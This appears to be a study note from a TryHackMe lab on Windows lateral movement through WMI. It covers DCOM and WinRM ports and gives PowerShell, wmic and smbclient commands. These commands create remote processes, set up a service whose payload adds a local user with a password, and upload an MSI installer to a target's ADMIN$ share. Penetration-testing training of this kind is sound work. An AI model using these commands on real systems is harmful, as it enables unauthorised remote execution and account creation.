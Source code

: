 - Protocols
    - **DCOM:** RPC over IP will be used for connecting to WMI.This protocol uses port 135/TCP and ports 49152-65535/TCP, just as explained when using sc.exe.
    - **Wsman:** WinRM will be used for connecting to WMI. This protocol uses ports 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS).

## [+] **Remote Process Creation Using WMI**

Note

```powershell

	$Command = "powershell.exe -Command Set-Content -Path C:\\text.txt -Value munrawashere";
	Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{ CommandLine = $Command }
```

- On legacy systems, the same can be done using wmic from the command prompt
    
    ```powershell
    wmic.exe /user:**Administrator** /password:**Mypass123** /node:**TARGET** process call create "cmd.exe /c calc.exe"
    ```
    

## [+] **Creating Services Remotely Using WMI**

```bash
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
	Name = "**ServiceName**";
	DisplayName = "**ServiceName**";
	PathName = "net user munra2 Pass123 /add"; # Your payload
	ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
	StartMode = "Manual"
	}
```

### [-] Start Service Remotely Using WMI

```powershell
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE '**ServiceName**'"
Invoke-CimMethod -InputObject $Service -MethodName StartService
```

## [+] **Installing MSI packages Using WMI**

- Transfer MSI file to the target ADMIN$ share
    
    ```bash
    user@AttackBox$ smbclient -c 'put myinstaller.msi' -U t1_corine.waters -W ZA '//thmiis.za.tryhackme.com/admin$/'
    ```
    
